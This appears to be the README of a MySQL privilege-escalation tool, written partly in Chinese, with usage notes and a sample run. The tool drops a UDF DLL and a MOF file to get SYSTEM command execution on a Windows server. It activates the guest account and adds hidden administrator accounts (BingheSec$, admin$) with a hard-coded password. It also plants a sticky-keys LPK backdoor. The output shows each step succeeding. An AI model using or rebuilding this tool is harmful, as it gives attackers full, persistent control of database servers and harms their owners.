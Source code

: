 # mysql-promoting-privileges
之前写的python打包的

请注意：dll文件只有当服务器是03的时候需要上传
就算是服务器支持外联还是建议把程序传到服务器上运行，因为代码里加了调用os模块创建plugin目录
如果是远程的话 利用NTFS ADS来创建plugin目录，成功的几率比较小
#Usage：
'''root.exe host port user pass'''
#Response:
'''
C:\Users\binghe\Desktop>root.exe 192.168.1.10 3306 root root

 ============================================================================
|                                                                            |
|                BingheSec Mysql Promote Privileges Tool                     |
|                                                                            |
 ============================================================================
Usage as: sec.py host port user pass
Example: sec.py 192.168.1.6 3306 root 123456
Current connection: 192.168.1.10:3306/root/root
Mysql Version is 5.5.40
Mysql Version>5.0 , UDF dll can only dump to plugin dir!
Mysql RootPath : C:/Program Files/phpStudy/MySQL/
UDF DLL PATH : C:/Program Files/phpStudy/MySQL/lib/plugin/BingheSec.dll

UDf will make the user 'guest' active and add to admin with the pass 789456123+abc
The sql of Dumping AddUser And AddToAdmin MOF File has queried OK.
Press shift 5 times then press 1,2 at the same time to start the lpk UI,pass:binghesec
Mof and LPK will add users named BingheSec$/admin$ with password: 789456123+abc
Mof file only fit for windows2003 , please test it byourself!
Command Query Result:
-------------------------------------------------------------------------------

Microsoft Windows [版本 5.2.3790]
nt authority\system
命令成功完成。

命令成功完成。

命令成功完成。

别名 administrators
注释 管理员对计算机/域有不受限制的完全访问权

成员

-------------------------------------------------------------------------------

admin$
Administrator
BingheSec$
Guest
命令成功完成。
'''
